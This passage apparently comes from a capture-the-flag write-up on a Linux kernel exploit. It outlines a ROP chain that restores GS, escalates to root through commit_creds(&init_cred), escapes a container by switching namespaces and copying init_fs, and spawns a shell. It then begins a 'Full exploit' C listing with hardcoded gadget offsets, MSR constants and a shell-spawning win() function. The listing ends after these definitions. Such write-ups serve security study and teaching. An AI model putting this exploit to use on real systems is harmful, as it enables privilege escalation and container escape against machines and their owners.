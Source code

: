
The ROPchain must:
- fix GS, to do so you can use an Arbitrary Read gadget (I jumped in the middle of `rep_movs_alternative` which is used in copy_to/from_user) to leak page_offset_base and then add 0x3ea00000 to get the actual GS base (yeah, GS' phys address is predictable)
- escalate privileges: `commit_creds(&init_cred)`
- escape container
	- change shell's namespace
	- assign a copy of `init_fs` struct to exploit task
- ret2user

Now `system("/bin/sh")` and profit :)

## Full exploit
```c
// #define DBG
#include  "kpwn.c"

#define MSR_SYSCALL_MASK 0xc0000084
#define MSR_KERNEL_GS_BASE 0xc0000101

#define EFLAGS_MASK 0x257fd5  ^  0x40000
#define KERNEL_GS 0x10000
#define GS_SIZE 0x2d000

#define PHYS_GS 0x3ea00000

#define POP_RSP 0xfe760
#define POP_RDI 0xda228d
#define POP_RSI 0x2527cc
#define POP_RCX 0xa3e793
#define POP_RDX 0x67ad92

#define ADD_DWORD_RSIRDX1_ESI 0xaa4063
#define REP_MOVS_ALTERNATIVE 0x101ed10
#define PAGE_OFFSET_BASE 0x19ea178
#define WRMSR 0x1201886

#define INIT_CRED 0x1c501d0
#define COMMIT_CREDS 0xcd3b0
#define FIND_TASK_BY_VPID 0xbf9a0
#define MOV_QWORD_RDI_RAX REP_MOVS_ALTERNATIVE+3
#define INIT_NSPROXY 0x1c4fd10
#define SWITCH_TASK_NAMESPACES 0xca960
#define INIT_FS 0x1d71f20
#define COPY_FS_STRUCT 0x31e6b0
#define SWAPGS_AND_SHIT 0x12015d0  +  0x67


void  win(){
	system("/bin/sh");
}

void  naked_syscall(){
	asm  volatile (
		".intel_syntax  noprefix\n"
		"mov  rax, 0x6969\n"
		"syscall\n"
		".att_syntax  prefix\n"
		:
		:
		: "rax"
	);
}
```